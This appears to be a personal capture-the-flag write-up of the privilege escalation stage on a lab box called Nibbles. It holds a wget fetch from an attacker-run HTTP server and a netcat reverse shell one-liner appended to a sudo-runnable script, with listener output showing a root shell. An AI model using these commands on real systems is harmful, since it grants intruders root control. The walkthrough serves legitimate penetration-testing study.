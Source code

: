 ## ==Privilege Escalation==

### Unzipping Personal.zip
Within the home directory of nibbler we find a `personal.zip`
```shell-session
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```
monitor.sh is a monitoring script owned by our nibbler user and it is writeable
	putting this aside for now

since we have access to the server we can pull in LinEnum.sh to automate the privilege escalation checks

### Pulling LinEnum.sh onto target
1. Download LinEnum.sh onto attacker machine
2. Launch a python http server
	1. ```sudo python3 -m http.server 8080```
3. Download LinEnum.sh onto target machine
	1. `wget http://10.10.15.3:8080/LinEnum.sh`
	2. `10.129.155.196 - - [03/Jun/2025 17:03:57] "GET /LinEnum.sh HTTP/1.1" 200 -`

### Appending a reverse shell to monitor.sh
We can't run LinEnum because that would require the sudo password for root

After checking `sudo -l` we are able to run monitor.sh with the sudo command
	appending a reverse shell will open a reverse shell with root

**Appending Reverse Shell One-Liner** #technique
```shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.3 9442 >/tmp/f' | tee -a monitor.sh
```

### Using monitor.sh for root shell
==***IMPORTANT***== #Important
*It is **crucial** if we ever encounter a situation where we can leverage a **writeable** **file** for privilege escalation. We only **append** to the **end** of the file (**after** making a **backup** copy of the file) to avoid overwriting it and causing a disruption*
****
*set up a nc listener*
`nc -lvnp 9442`

*then we just run the script with sudo*
`sudo ./monitor.sh`

*now on our nc listener we see we achieved a root shell*
```
listening on [any] 9442 ...
connect to [10.10.15.3] from (UNKNOWN) [10.129.155.196] 44410
# id
uid=0(root) gid=0(root) groups=0(root)
```

